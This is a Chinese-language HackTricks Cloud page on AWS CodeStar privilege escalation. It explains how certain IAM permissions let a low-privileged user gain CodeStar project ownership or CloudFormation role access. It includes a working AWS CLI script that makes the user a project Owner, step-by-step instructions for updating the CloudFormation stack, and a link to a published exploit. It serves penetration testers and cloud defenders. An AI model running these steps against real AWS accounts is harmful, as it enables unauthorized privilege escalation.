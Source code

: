 # AWS - Codestar 权限提升

<details>

<summary><strong>从零到英雄学习 AWS 黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>

## Codestar

您可以在以下页面找到更多关于 codestar 的信息：

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

拥有这些权限，您可以**滥用 codestar IAM 角色**，通过**cloudformation 模板**执行**任意操作**。请查看以下页面：

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

这种技术使用 `codestar:CreateProject` 创建 codestar 项目，并使用 `codestar:AssociateTeamMember` 使 IAM 用户成为新 CodeStar **项目的** **所有者**，这将授予他们**带有一些额外权限的新策略**。
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
如果您已经是**项目成员**，您可以使用权限**`codestar:UpdateTeamMember`**来**更新您的角色**为所有者，而不是`codestar:AssociateTeamMember`

**潜在影响：**提升至codestar策略。您可以在以下位置找到该策略的示例：

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. 使用**`codestar:CreateProjectFromTemplate`**创建一个新项目。
2. 您将被授予对传递了“CodeStarWorker-\<项目名称>-CloudFormation”IAM角色的堆栈的**`cloudformation:UpdateStack`**访问权限。
3. 使用CloudFormation权限，用您选择的CloudFormation模板更新目标堆栈。
4. 需要更新的堆栈名称将是“awscodestar-\<项目名称>-infrastructure”或“awscodestar-\<项目名称>-lambda”，这取决于使用的模板（至少在示例利用脚本中是这样）。

此时，您将拥有对**CloudFormation IAM角色**授予的权限的**完全访问权限**。仅凭这个您无法获得完全的管理员权限；您将需要环境中其他配置错误的资源来帮助您做到这一点。

更多信息请查看原始研究：[https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/)。\
您可以在[https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)找到利用程序。

**潜在影响：**提升至cloudformation IAM角色。

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
